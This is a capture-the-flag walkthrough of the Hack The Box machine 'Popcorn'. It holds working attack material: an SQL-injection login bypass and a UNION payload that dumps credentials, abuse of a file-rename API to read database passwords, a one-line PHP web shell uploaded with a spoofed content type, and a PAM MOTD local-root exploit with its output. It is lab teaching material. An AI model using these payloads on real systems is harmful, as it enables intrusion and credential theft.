 ```yaml
---

title: 🟠 HTB - Popcorn
author: Acivik
date: 2025-01-24 20:00:00 +0300 
categories: [CTF, Hack The Box]
tags: [hackthebox, ctf, hacking, writeup, Popcorn, walkthrough, medium, linux]

---
```


![https://i.ibb.co/b6xZz9t/Popcorn.png](https://i.ibb.co/b6xZz9t/Popcorn.png)

---

# <span style="color:#AA0E1C"><b># System Info & Credentials</b></span>

| IP: | 10.10.10.6 |
| --- | --- |
| OS: | Ubuntu 9.10 "Karmic Koala” |
| Hosts: | popcorn.htb |
| Credentials: | torrent:SuperSecret!! |

# <span style="color:#AA0E1C"><b># Nmap Result</b></span>

```bash
root@kali:~/HTB/popcorn# nmap -p22,80 -sT 10.10.10.6 --min-rate 10000 -sV -sC
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-21 13:48 UTC
Nmap scan report for 10.10.10.6 (10.10.10.6)
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12
|_http-title: Did not follow redirect to http://popcorn.htb/
|_http-server-header: Apache/2.2.12 (Ubuntu)
Service Info: Host: popcorn.hackthebox.gr; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.90 seconds
root@kali:~/HTB/popcorn#
```

# <span style="color:#AA0E1C"><b># Open Ports & To-Do</b></span>

| 22/tcp SSH | OpenSSH 5.1p1-6ubuntu2| Need Credentials |
| --- | --- | --- |
| 80/tcp HTTP | Apache/2.2.12 | Web Enumerate |

# <span style="color:#AA0E1C"><b># Enumeration Notes</b></span>

## <span style="color:#0096FF">Web-Enum:</span>

![https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png](https://i.ibb.co/ZG8ngW6/resim-2025-01-23-141548690.png)

### <span style="color:#FFC300">Directory & Files</span>

```
/index/
/test/ -> phpinfo() page
/torrent/ -> TorrentHoster
	/torrents.php
	/comment
	/config.php
	/database/th_database.sql -> admin:admin12
	/login
	/upload.php
	/upload -> uploads directory
	/readme
	/lib -> Index of /torrent/lib
/rename/ -> api
```

### <span style="color:#FFC300">/torrent/</span>

![https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png](https://i.ibb.co/YhsKdDw/resim-2025-01-23-142222893.png)

# <span style="color:#AA0E1C"><b># Vulnerabilities</b></span>

### <span style="color:#FFC300">Rename Files</span>

We can change files name with rname api. 

For example, you can read the config.php file by changing its name to config.txt.

```bash
/rename/
		Renamer API Syntax: index.php?filename=old_file_path_an_name&newfilename=new_file_path_and_name
```

```bash
/rename/index.php?filename=/var/www/torrent/config.php&newfilename=/var/www/torrent/lib/config.txt
	  $CFG->dbName = "torrenthoster";	//db name
	  $CFG->dbUserName = "torrent";    //db username
	  $CFG->dbPassword = "SuperSecret!!";	//db password
```

### <span style="color:#FFC300">Authentication Bypass</span>

```bash
/torrent/login (Authentication Bypass) -> admin' or 1='1
```

### <span style="color:#FFC300">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
```

### <span style="color:#FFC300">File Upload (Authenticated)</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

# <span style="color:#AA0E1C"><b># Foothold</b></span>

## <span style="color:#0096FF">SQL Injection</span>

```bash
/torrent/torrents.php (There is sqli on search box) -> test' union select null,group_concat(schema_name),null,null,null,null,null,null,null,null,null,null,null,null,null,null,null from information_schema.schemata-- -
database:information_schema
database:torrenthoster
	tables:ban
	tables:categories
	tables:comments
	tables:log
	tables:namemap
	tables:news
	tables:subcategories
	tables:users
		columns:id
		columns:userName
		columns:password
		columns:privilege
		columns:email
		columns:joined
		columns:lastconnect
	
dumped -> Admin : d5bfedcee289e5e05b86daad8ee3e2e2 : admin : admin@yourdomain.com (couldn't crack this hash)
```

## <span style="color:#0096FF">Upload Shell</span>

![https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png](https://i.ibb.co/1X73pKn/resim-2025-01-23-142803287.png)

**Request Body:**

Changed the content type header
`application/x-php` to `image/jpeg`

```bash
-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="file"; filename="cmd.php"
Content-Type: image/jpeg

<?php system($_GET["cmd"]);?>

-----------------------------239990188727439809613051752681
Content-Disposition: form-data; name="submit"

Submit Screenshot
-----------------------------239990188727439809613051752681--

```

**Response Body:**

```bash
Upload: cmd.php
Type: image/jpeg
Size: 0.029296875 Kb
Upload Completed.
Please refresh to see the new screenshot.
```

```bash
http://popcorn.htb/torrent/upload/723bc28f9b6f924cca68ccdff96b6190566ca6b4.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

# <span style="color:#AA0E1C"><b># Privilege Escalation</b></span>

check os version

```bash
www-data@popcorn:/home/george$ uname -a
uname -a
Linux popcorn 2.6.31-14-generic-pae #48-Ubuntu SMP Fri Oct 16 15:22:42 UTC 2009 i686 GNU/Linux
www-data@popcorn:/home/george$ cat /etc/*release*
cat /etc/*release*
DISTRIB_ID=Ubuntu
DISTRIB_RELEASE=9.10
DISTRIB_CODENAME=karmic
DISTRIB_DESCRIPTION="Ubuntu 9.10"
www-data@popcorn:/home/george$
```

[https://www.exploit-db.com/exploits/14339](https://www.exploit-db.com/exploits/14339)

```bash
www-data@popcorn:/tmp$ ls
privesc.sh  vgauthsvclog.txt.0	vmware-root
www-data@popcorn:/tmp$ ./privesc.sh 
[*] Ubuntu PAM MOTD local root
[*] SSH key set up
[*] spawn ssh
[+] owned: /etc/passwd
[*] spawn ssh
[+] owned: /etc/shadow
[*] SSH key removed
[+] Success! Use password toor to get root
Password: 
root@popcorn:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
root@popcorn:/tmp#
```
